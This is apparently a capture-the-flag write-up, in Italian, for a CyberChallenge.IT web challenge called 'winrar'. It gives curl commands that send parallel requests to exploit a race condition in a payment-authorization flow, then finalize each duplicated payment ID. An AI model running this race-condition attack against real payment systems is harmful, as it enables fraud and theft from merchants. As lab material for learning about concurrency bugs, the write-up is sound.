 ```c
curl -c cookies.txt http://winrar.challs.cyberchallenge.it/new_account.php
```

```c
printf "1\n2\n3" | xargs -I{} -P3 curl -s -b cookies.txt -c cookies.txt "http://winrar.challs.cyberchallenge.it/authorize_payment.php?amount=100"
```

Questo ci restituisce i 3 id del pagamento.

Payment authorized with ID 3faf948733c4c7066f90.<br/>Processing payment authorization...Payment authorized with ID fcada62503a36d14bee2.<br/>Processing payment authorization...Payment authorized with ID f71297806a0458cfcde6.<br/>Processing payment authorization…

```c
curl -b cookies.txt -c cookies.txt "http://winrar.challs.cyberchallenge.it/finalize_payment.php?id=3faf948733c4c7066f90"
curl -b cookies.txt -c cookies.txt "http://winrar.challs.cyberchallenge.it/finalize_payment.php?id=fcada62503a36d14bee2"
curl -b cookies.txt -c cookies.txt "http://winrar.challs.cyberchallenge.it/finalize_payment.php?id=f71297806a0458cfcde6"
```

```c
curl -b cookies.txt http://winrar.challs.cyberchallenge.it/
```